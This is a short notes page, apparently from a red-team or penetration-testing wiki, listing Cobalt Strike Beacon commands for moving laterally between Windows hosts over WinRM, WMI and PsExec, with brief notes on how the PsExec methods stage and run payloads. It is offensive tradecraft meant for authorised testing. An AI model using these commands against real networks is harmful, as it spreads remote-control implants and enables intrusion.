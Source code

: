 # Cobalt Strike Lateral Movement

---

## WinRM

See [[active-directory-lateral-movement#WinRM|here]] for conceptual background.

For a Beacon:

```beacon
jump winrm[64] $TARGET_FQDN_OR_IP $LISTENER
```

To execute a single program:

```beacon
remote-exec winrm $TARGET_FQDN_OR_IP $PROGRAM_PATH $PROGRAM_ARGS
```

- `$PROGRAM_PATH` is from the target's perspective

---

## WMI

See [[active-directory-lateral-movement#Windows Management Instrumentation WMI|here]] for conceptual background.

To execute a single program:

```beacon
remote-exec wmi $TARGET_FQDN_OR_IP $PROGRAM_PATH $PROGRAM_ARGS
```

- `$PROGRAM_PATH` is from the target's perspective

---

## PsExec

See [[active-directory-lateral-movement#PsExec|here]] for conceptual background.

To spawn a new Beacon:

```beacon
jump psexec[64] $TARGET_FQDN_OR_IP $LISTENER
```

- Stages binary payload to target
- Creates and runs service pointing at binary payload
- Migrates beacon to new process
- Deletes the binary payload

To spawn a new Beacon:

```beacon
jump psexec_psh $TARGET_FQDN_OR_IP $LISTENER
```

- Creates and runs service pointing at stageless beacon payload
	- Always 32-bit payload
